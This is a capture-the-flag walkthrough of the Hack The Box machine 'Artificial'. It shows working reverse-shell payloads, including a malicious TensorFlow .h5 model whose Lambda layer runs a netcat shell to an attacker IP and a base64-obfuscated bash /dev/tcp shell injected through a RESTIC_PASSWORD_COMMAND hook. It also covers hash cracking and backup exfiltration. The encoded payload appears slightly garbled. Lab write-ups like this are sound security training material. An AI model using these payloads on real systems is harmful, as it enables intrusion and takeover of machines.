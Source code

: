 ```yaml
---
layout: default
title: Artificial [EN]
---
```



**Platform:** Linux\
**IP:** 10.129.70.3\
**Difficulty:** Easy\
**Author:** NoSec

> 🚨 **Follow the HTB grind in real-time — leaks, drops, and deep writeups**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Don't read. Join._

---

## Recon

<div class="terminal"
nmap -sC -sV -T4 10.129.70.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
</div>

**/etc/hosts edit:**
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enumeration

The website provides login and registration functionality. After signing up, it allows uploading `.h5` files.

### Generating a malicious TensorFlow model(tenserflow-cpu==2.13.1 a required)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker command:**
```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

After uploading:
```bash
nc -lvnp 4444
```

---

## SQLite Database Enumeration

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Found: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Cracking hashes (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Example results:
```
mattp005
marwinn
```

---

## Privilege Escalation (Backup leak)

Using the `redteam-launcher` to check backups(https://github.com/No4Sec/redteam-launcher):
```
/var/backups/backrest_backup.tar.gz
```

**Download via HTTP server:**
```bash
cd /var/backups
python3 -m http.server
```

**On Kali:**
```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Extract:**
```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**
```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode:
```bash
cat hash.txt | base64 -d
```

John bcrypt:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

After port forwarding, we can access the Backrest login page. Use the dumped credentials to log in and create a new repo.

**Environment variable exploit:**
```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Important:** for the `Hook` field, use:
```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Why base64?** Because the input field tends to break special characters. Encoding helps to deliver the payload cleanly.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Then submit, and we get a root shell back:
```bash
nc -lvnp 4444
```
```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---

## 🧩 Summary

Artificial is an easy but creative machine combining multiple exploitation vectors:

- Remote shell via malicious machine learning model
- Hash extraction from SQLite database
- Bcrypt hash found in backup archive
- RESTIC environment variable leading to RCE and root shell

The `.h5` TensorFlow model with embedded code execution and the RESTIC hook exploit were both unique highlights of the box.

**Key takeaways:**
- Never trust user-uploaded files
- Avoid running backup services as root
- Always inspect `.tar.gz` files — they may contain secrets :)

---

🎯 Rooted. Moving on to the next one. //

